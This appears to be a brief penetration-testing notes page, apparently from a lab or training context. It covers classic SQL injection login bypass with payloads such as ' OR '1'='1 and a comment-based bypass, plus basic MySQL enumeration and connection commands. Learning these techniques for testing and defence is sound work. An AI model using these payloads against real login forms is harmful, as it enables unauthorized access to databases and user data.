 ## Usfuel Cheat Sheets
- [MySQL SQL Injection](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) 
- [Oracle SQL Injection](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)  
- [PostgreSQL SQL Injection](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)

## Classic SQL Injection
This is the most common type of SQL injection, where an attacker injects malicious SQL code into an application's input fields, typically through user inputs like forms or URL parameters.

```bash
' OR '1'='1
```
If the application does not properly sanitize input, the SQL query might look like this:
```bash
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'password';
```

Also, you can use **#** . The **#** character is used for commenting. So, if the line responsible for the login is: 
````bash
SELECT * FROM users WHERE user=\$user AND password=\$password
```` 
When we login on the page and enter user=Kill-9 and password=123, the executed statement will be: 
````bash
SELECT * FROM users WHERE user='Kill-9' AND password=$123
````
 If we input:
 ````bash
 user=Kill-9'#
````
The statement will be: 
````bash
SELECT * FROM users WHERE user='Kill-9'# AND password=$123
```` 
The commented part is not processed, granting us access.



## MySQL 

- Prints out the databases we can access:
````bash
SHOW databases;
````  

- Set to use the database named {database_name}:
````bash
USE {database_name};
````  

- Prints out the available tables inside the current database:

````bash
SHOW tables;
````  
- Prints out all the data from the table {table_name}:
````bash
SELECT * FROM {table_name};
````  


To connect:
````bash
mysql -h 10.129.42.201 -u root -p <password>
````


